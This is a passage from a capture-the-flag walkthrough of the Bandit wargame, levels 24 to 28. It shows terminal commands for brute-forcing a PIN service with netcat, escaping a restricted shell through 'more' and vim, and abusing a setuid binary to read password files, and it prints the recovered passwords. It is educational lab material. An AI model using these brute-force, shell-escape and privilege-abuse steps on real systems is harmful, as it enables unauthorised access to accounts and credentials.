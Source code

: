 ```
```
```
bandit24@bandit:/tmp/meow$ cat passwordlist.txt | nc localhost 30002 > result.txt
```
```
bandit24@bandit:/tmp/meow$ sort -u result.txt

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Wrong! Please enter the correct pincode. Try again.
```
## Level 25 - 26 (ssh -i, more v, vim :e & :shell)
```
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
```
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
```
```
press v
```
```
:e /etc/bandit_pass/bandit26
```
```
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z 
```
## Level 26 - 27 (cat, suid)
```
bandit26@bandit:~$ ls -l
total 12
-rwsr-x--- 1 bandit27 bandit26 7296 May  7  2020 bandit27-do
-rw-r----- 1 bandit26 bandit26  258 May  7  2020 text.txt
```
```
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit\_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
## Level 27 - 28 (git clone)
```
bandit27@bandit:/tmp/meow$ git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
```
```
bandit27@bandit:/tmp/meow$ ls -la
total 1996
drwxr-sr-x 3 bandit27 root    4096 Aug 23 07:46 .
drwxrws-wt 1 root     root 2031616 Aug 23 07:46 ..
drwxr-sr-x 3 bandit27 root    4096 Aug 23 07:46 repo
bandit27@bandit:/tmp/meow$ cd repo
bandit27@bandit:/tmp/meow/repo$ ls
README
```